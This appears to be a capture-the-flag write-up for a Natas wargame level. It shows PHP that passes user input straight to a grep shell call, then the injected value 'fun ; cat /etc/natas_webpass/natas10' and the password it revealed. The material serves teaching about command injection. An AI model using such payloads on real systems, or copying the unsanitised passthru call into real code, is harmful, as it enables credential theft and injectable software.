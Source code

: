 The Page source code 

```html
<div id="content">
<form>
Find words containing: <input name="needle"><input type="submit" name="submit" value="Search"><br><br>
</form>


Output:
<pre></pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```
the index-source.html 
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
Lets Test with word Password
```html
<pre>password
password's
passwords
</pre>
```
now it the code its looking for the string **""** now lets see what this will print out -> printed the full word dictionary
but doesn't have password 
**HINT** Chain Commands SInce its using grep 

```text
// I will input "fun ; cat /etc/natas_webpass/natas10"

Below is the Output
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

African
Africans
Allah
Allah's
American
Americanism
Americanism's
Americanisms
```
